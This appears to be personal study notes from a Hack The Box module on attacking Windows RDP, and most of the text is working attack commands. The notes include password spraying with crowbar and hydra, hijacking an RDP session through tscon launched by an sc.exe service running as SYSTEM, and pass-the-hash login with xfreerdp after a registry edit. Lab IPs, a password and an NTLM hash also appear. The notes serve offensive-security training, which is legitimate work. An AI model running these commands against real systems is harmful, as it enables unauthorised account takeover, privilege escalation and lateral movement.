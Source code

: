 
GUI in windows remotly
-administrator tool
-RDP uses port `TCP/3389`.
## Misconfigurations
-password guessing ??\
client's password policy. must be determined
-best practice:?
	attempting a single password for many usernames before trying another password, being careful to avoid account lockout.

#### Crowbar - RDP Password Spraying
```shell-session
AhmaDb0x@htb[/htb]# crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

#### Hydra - RDP Password Spraying
```shell-session
AhmaDb0x@htb[/htb]# hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
-RDP into the target system using the `rdesktop` client or `xfreerdp` client with valid credentials.


#### RDP Login
```shell-session
AhmaDb0x@htb[/htb]# rdesktop -u htb-rdp -p 'HTBRocks!' 10.129.253.10
```


## Protocol Specific Attacks

-gain access to a machine and have an account with local administrator privileges
-a user is connected via RDP to our compromised machine
-hijack the user's remote desktop session to escalate our privileges and impersonate the account.
-result in us taking over a Domain Admin account or escalate in terms of the domain.


#### RDP Session Hijacking
we are logged in as the user `juurena` (UserID = 2) who has `Administrator` privileges. Our goal is to hijack the user `lewen` (User ID = 4), who is also logged in via RDP.

![[Pasted image 20250215144829.png]]

#### **impersonate a user without their password**
_Note: This method no longer works on Server 2019._

1-we need to have `SYSTEM` privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary that enables users to connect to another desktop session. It works by specifying which `SESSION ID` (`4` for the `lewen` session in our example) we would like to connect to which session name (`rdp-tcp#13`, which is our current session). So, for example, the following command will open a new console as the specified `SESSION_ID` within our current RDP session:
```cmd-session
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

2-we can use several methods to obtain `SYSTEM` privileges, such as [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) or [Mimikatz](https://github.com/gentilkiwi/mimikatz). A simple trick is to create a Windows service that, by default, will run as `Local System` and will execute any binary with `SYSTEM` privileges. We will use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary.

First, we specify the service name (`sessionhijack`) and the `binpath`, which is the command we want to execute. Once we run the following command, a service named `sessionhijack` will be created.

```cmd-session
C:\htb> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCESS
```

```cmd-session
C:\htb> net start sessionhijack
```
a new terminal with the `lewen` user session will appear.

discover what kind of privileges it has on the network, and maybe we'll get lucky, and the user is a member of the Help Desk group with admin rights to many hosts or even a Domain Admin.

_Note: This method no longer works on Server 2019._


## RDP Pass-the-Hash (PtH)
`Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with ERROR

`DisableRestrictedAdmin` (REG_DWORD)

`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`

```cmd-session
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
-remember you can execute via `smb` -x then attempt to connect via `rdp`

Once the registry key is added, we can use `xfreerdp` with the option `/pth` to gain RDP access:

```shell-session
AhmaDb0x@htb[/htb]# xfreerdp /v:10.129.253.10 /u:Administrator /pth:0E14B9D6330BF16C30B192411110482
```

Keep in mind that this will not work against every Windows system we encounter, but it is always worth trying in a situation where we have an NTLM hash, know the user has RDP rights against a machine or set of machines, and GUI access would benefit us in some ways towards fulfilling the goal of our assessment.

User: Administrator
Hash: 0E14B9D6330BF16C30B1924111104824
